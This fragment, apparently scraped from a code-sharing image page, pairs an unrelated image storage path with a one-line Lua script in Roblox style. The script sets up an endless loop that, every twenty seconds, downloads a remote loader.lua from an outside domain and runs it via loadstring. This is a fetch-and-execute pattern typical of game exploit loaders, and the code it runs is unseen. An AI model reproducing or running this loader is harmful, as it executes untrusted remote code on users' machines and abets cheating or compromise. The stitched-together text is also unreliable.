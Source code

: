 repeat wait()spawn(function()loadstring(game:HttpGet("https://nousigi.com/loader.lua"))()end)wait(20)until Joebiden
